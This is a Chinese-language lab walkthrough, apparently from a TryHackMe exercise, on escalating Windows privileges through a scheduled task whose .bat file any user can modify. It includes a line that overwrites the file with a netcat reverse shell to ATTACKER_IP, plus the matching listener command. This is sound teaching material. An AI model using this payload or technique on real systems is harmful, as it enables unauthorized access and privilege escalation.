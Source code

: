 权限提升并不总是一个挑战，一些错误配置也可以让你获得更高的用户访问权限，在某些情况下，甚至可以获得管理员访问权限（这些场景更多的会出现在CTF中，而不是在实际渗透测试环境下）。

**计划任务（Scheduled Tasks）**

查看目标系统上的计划任务，你可能会看到有一个计划任务丢失了其二进制文件，或者它正在使用你可以修改的二进制文件。

你可以使用不带任何选项的 schtasks 命令列出目标系统上的计划任务。 如果要检索有关任何服务的详细信息，你还可以使用如下命令：


```Shell
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

使用上述命令之后，你将获得有关该任务的一些信息，但对我们而言重要的是“Task to Run”参数，它将指示计划任务执行的内容，以及“Run As User”参数，它将显示执行计划任务时的用户。

如果我们当前的用户可以修改或覆盖“Task to Run”可执行文件，那么我们就可以控制 taskusr1 用户执行的内容，从而实现简单的权限提升。 要检查可执行文件的文件权限，我们可以使用 <span style="color: #FBBFBC">`icacls`</span>：


```Shell
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

从上述输出结果可以看出，BUILTIN\Users 组（Windows系统中内置用户账户组）对计划任务的二进制文件具有完全访问权限 (F)。 这意味着可以修改 .bat 文件并插入我们需要的任何payload。 为了方便起见，可以使用 <span style="color: #FBBFBC">`C:\tools`</span>目录下已经准备好的<span style="color: #FBBFBC">`nc64.exe`</span>文件。

我们可以更改 bat 文件以生成反向 shell：


```Shell
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

在反向 shell文件中指定的同一端口上，由攻击机启动一个netcat侦听器：


```Shell
nc -lvp 4444  #攻击机上
```

当下次计划任务开始自动运行时，你应该会在攻击机上 收到具有 taskusr1 权限的反向 shell。

在真实场景中可能必须等待计划任务自动触发，但是在此处为了节省时间，目标系统给用户提供了手动启动任务的权限，我们可以使用以下命令手动运行计划任务：


```Shell
C:\> schtasks /run /tn vulntask
```

你将在攻击机上，按预期收到具有 taskusr1 权限的反向 shell：

![](assets/FLMBbILzdo2VMpxybyccHHmknId.png)
